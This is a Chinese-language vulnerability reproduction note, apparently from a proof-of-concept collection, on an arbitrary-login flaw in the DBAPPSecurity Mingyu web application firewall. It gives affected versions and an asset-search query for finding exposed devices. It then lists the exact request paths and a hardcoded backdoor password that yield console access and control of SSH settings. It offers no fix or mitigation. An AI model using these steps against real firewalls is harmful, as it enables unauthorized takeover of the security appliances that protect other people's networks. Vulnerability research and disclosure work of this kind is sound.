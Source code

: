 # 安恒明御Web应用防火墙任意登录漏洞

# 一、漏洞简介
<font style="color:rgb(36, 41, 46);">安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录</font>

# <font style="color:rgb(36, 41, 46);">二、影响版本</font>
+ <font style="color:rgb(36, 41, 46);">明御 WAF X86 架构 <= 4.6.33</font>
+ <font style="color:rgb(36, 41, 46);">明御 WAF 信创兆芯 = 4.5</font>
+ <font style="color:rgb(36, 41, 46);">明御 WAF 鲲鹏 = 4.6.18</font>

# <font style="color:rgb(36, 41, 46);">三、资产测绘</font>
+ hunter：`app.name="安恒明御 WEB应用防火墙"`

![1691870207684-43773e1e-380f-4b50-97c4-970a85fe15da.png](./img/2T7HQw4oHIy0OLXx/1691870207684-43773e1e-380f-4b50-97c4-970a85fe15da-510345.png)

+ 登录页面

![1691870225669-83195d88-a32e-4040-9f1c-2a56c683bc0b.png](./img/2T7HQw4oHIy0OLXx/1691870225669-83195d88-a32e-4040-9f1c-2a56c683bc0b-657075.png)

![1691870232014-cbeb65c6-e392-4ec9-9a10-a412bb88d806.png](./img/2T7HQw4oHIy0OLXx/1691870232014-cbeb65c6-e392-4ec9-9a10-a412bb88d806-158115.png)

# 四、漏洞复现
1. 访问poc

```plain
/report.m?a=rpc-timed
```

![1691870301946-d3891e18-1a97-42d1-b267-b33469f8346c.png](./img/2T7HQw4oHIy0OLXx/1691870301946-d3891e18-1a97-42d1-b267-b33469f8346c-880725.png)

2. <font style="color:rgb(36, 41, 46);">接着删除路径信息，再次访问登录界面就会出现这个界面</font>

![1691870377480-392d2c1d-9a61-49de-9dd7-4238ddede8d1.png](./img/2T7HQw4oHIy0OLXx/1691870377480-392d2c1d-9a61-49de-9dd7-4238ddede8d1-426367.png)![1691870410076-6ce9b3d6-93a4-4520-9df6-de8c21438976.png](./img/2T7HQw4oHIy0OLXx/1691870410076-6ce9b3d6-93a4-4520-9df6-de8c21438976-170796.png)

3. 访问下面这个路径，进入系统设置（不能直接点系统设置），就可以更改SSH的配置了。

```plain
/system.m?a=reserved
```

![1691870717826-fb965fdd-ec4c-411d-a116-5e9935289e2b.png](./img/2T7HQw4oHIy0OLXx/1691870717826-fb965fdd-ec4c-411d-a116-5e9935289e2b-731935.png)

4. 在密码框中，输入密码,就可以更改SSH配置,也可查看其他菜单

```plain
!@#dbapp-waf-dev-reserved#@!
```

![1691870792270-ff4dc9a2-cce2-4788-9c6a-e704841c90fa.png](./img/2T7HQw4oHIy0OLXx/1691870792270-ff4dc9a2-cce2-4788-9c6a-e704841c90fa-715844.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fg8ocgvc7bpywni4>